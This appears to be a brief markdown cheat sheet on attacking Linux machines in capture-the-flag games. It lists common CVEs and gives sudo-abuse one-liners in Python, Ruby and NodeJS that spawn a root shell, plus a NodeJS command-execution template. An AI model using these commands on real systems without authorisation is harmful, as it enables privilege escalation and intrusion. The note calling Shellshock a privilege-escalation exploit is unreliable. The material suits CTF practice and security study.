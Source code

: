 # Attacking Linux Boxes

### Most Common CVEs used on CTFs
| # | CVE | Description |
| --- | --- | --- |
| 1 | Shellshock | Privilage esculation exploit.  Can be used against CGI-Bin also. |
| 2 | [SambaCry](https://redteamzone.com/EternalRed/) | Also known as EternalRed.  This is the EthernalBlue of Linux SMB File Servers. |

### Post Exploitation - Prev. Esculation

*Enumerate Misconfigured `sudo`*
Run this command to see what programs you has access to using sudo.
```
sudo -l
```

*Exploiting Misconfigured `sudo`*
| # | Language | Commands |
| --- | --- | --- |
| 1 | Python | `sudo python3 -c 'import os; os.system("/bin/bash")'`
| 2 | Ruby | `sudo ruby -e 'system("/bin/bash")'` |
| 3 | NodeJS | `node -e '[...]()'` |

*NodeJS Privilage Exculation Script*
```Javascript
var exec = require('child_process').exec;
exec('[COMMAND]', function (error, stdOut, stdErr) {
console.log(stdOut);
});
```
